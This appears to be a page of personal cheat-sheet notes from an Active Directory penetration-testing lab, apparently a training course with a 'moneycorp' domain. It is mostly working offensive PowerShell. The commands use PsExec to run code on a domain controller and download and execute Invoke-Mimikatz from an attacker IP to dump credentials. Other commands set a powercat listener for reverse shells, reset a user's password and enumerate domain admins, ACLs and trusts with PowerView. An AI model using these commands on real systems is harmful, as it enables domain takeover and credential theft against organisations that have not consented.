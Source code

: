 ```powershell
.\PsExec64.exe -accepteula -s \\dcorp-dc powershell -exec bypass -c "iex(gc -raw \\172.16.100.32\share\callme.ps1)" #Sometimes IP doesn't work but hostname does
.\PsExec64.exe -accepteula -s \\dcorp-dc powershell -exec bypass -c "iex(iwr -usebasicparsing http://172.16.100.32/AD/Tools/Invoke-Mimikatz.ps1);Invoke-Mimikatz;"
# NB -i psexec param for remote machine means interact with session on specified machine, not local machine (so can't do PsExec.exe -i \\dcorp-dc powershell to get interactive shell)
```
```powershell
# Listener for payloads
. .\powercat.ps1
powercat -l -v -p 443 -t 1000
```
<hr/>

## User Manipulation
* Reset Password: `Get-ADUser student32 | Set-ADAccountPassword -Reset -NewPassword $(ConvertTo-SecureString -AsPlainText "potato3$" -force)`

<hr/>

## Domain Enumeration
```powershell
$ADClass = [System.DirectoryServices.ActiveDirectory.Domain]
$ADClass::GetCurrentDomain()
```
### Domain Enumeration - Tools
* **PowerSploit PowerView.ps1** (often flagged by AV)
  * Note: when no `-Domain` param is set, will use current domain
  * `Import-Module "C:\AD\Tools\PowerView.ps1"` or `iex(iwr http://172.16.99.32/PowerView.ps1)`
  * `Get-NetDomain -Domain moneycorp.local`
  * `Get-DomainPolicy -domain moneycorp.local`
  * `(Get-DomainPolicy -domain dollarcorp.moneycorp.local)."system access"` and `."kerberos policy"`
  * `Get-NetDomainController` / `Get-NetDomainController -domain moneycorp.local`
  * `Get-NetUser` / `Get-NetUser -Username student1`
  * `Get-NetComputer` / `Get-NetComputer -OperatingSystem "*Server 2016*"`
  * `Get-NetComputer -Ping` / `Get-NetComputer -FullData`
  * `Get-NetGroup *admin* `
  * `Get-NetGroupMember -GroupName "Domain Admins" -Recurse` ; `Get-NetGroupMember -GroupName "Enterprise Admins" -Domain moneycorp.local`
  * `Get-NetGroup -UserName "jsmith"`
  * `Get-NetLocalGroup -ComputerName dcorp-dc.dollarcorp.moneycorp.local -ListGroup`
  * `Invoke-ShareFinder` / `Invoke-FileFinder` / `Get-NetFileServer` / `Invoke-ShareFinder -ExcludeStandard -ExcludeIPC -ExcludePrint`
  * `Get-UserProperty -Properties pwdlastset,badpwdcount,logoncount` Help to detect decoy/canary accounts
  * `Find-UserField -SearchField Description -SearchTerm "built"`
  * `Get-NetLoggedon -ComputerName dcorp-dc.dollarcorp.moneycorp.local`
  * `Get-LoggedonLocal -ComputerName dcorp-dc.dollarcorp.moneycorp.local`
  * `Get-LastLoggedOn -ComputerName dcorp-dc.dollarcorp.moneycorp.local`
  * `Get-NetGPO` / `Get-NetGPO -ComputerName dcorp-dc.dollarcorp.moneycorp.local`
  * `Find-GPOComputerAdmin` / `Find-GPOLocation -UserName student32 -Verbose`
  * `Get-NetOU -FullData` and `Get-NetGPO -GPOname '{3E04167E-C2B6-4A9A-8FB7-C811158DC97C}'` - Find OUs, then find info about the GPOs that apply to them
  * `Get-NetComputer -FullData | ? { $_.adspath -like "*studentmachines*" }` - Find computers in specified OU
  * `Get-ObjectAcl -SamAccountName student32 -ResolveGUIDs`
  * `Get-ObjectAcl -ADSprefix 'CN=Administrator,CN=Users' -Verbose`
  * `Invoke-ACLScanner -ResolveGUIDs` Search for interesting ACEs
  * `Get-ObjectAcl -ADSpath "LDAP://CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local" -ResolveGUIDs -Verbose`
  * `Get-PathAcl -Path "\\dcorp-dc.dollarcorp.moneycorp.local\sysvol"`
  * `Get-NetDomainTrust` /  `Get-NetDomainTrust -Domain us.dollarcorp.moneycorp.local`